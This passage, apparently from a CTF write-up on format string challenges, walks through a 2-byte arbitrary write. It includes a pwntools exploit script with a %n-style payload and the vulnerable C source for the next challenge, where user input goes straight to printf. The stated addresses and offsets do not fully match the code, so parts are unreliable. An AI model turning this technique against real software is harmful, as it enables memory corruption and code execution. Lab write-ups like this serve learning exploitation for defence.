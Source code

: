 From the above representation, obviously now the target doesn’t have any value written; however, the 4 byte hex location (0x00000000) is where we need to replace with 0x01025544.

So for the 2-byte-write method, we will need to utilize the addresses: 0x80496f4 and 0x80496f6.
```
0x01025544    <-- Desired value & divide this into 2
    ⬇  
  0x0102      <-- We will write this on address starting from "28"
  0x5544      <-- We will write this on address starting from "f6"
  
 ```
 
 
 ```
 from pwn import * 

BIN = "./format"

target = 0x0804c028
target1 = 0x0804c028 + 2


def exploit():
	payload = p32(target) + p32(target1) + b"%21820d%12$ln" + b"%43966d%13$ln"
	io.sendline(payload)
	io.interactive()

io = process(BIN)
exploit()


#ABCD%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x
```


to sovle this chall



## Format 4

Last chall of this technology
Source code :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}
```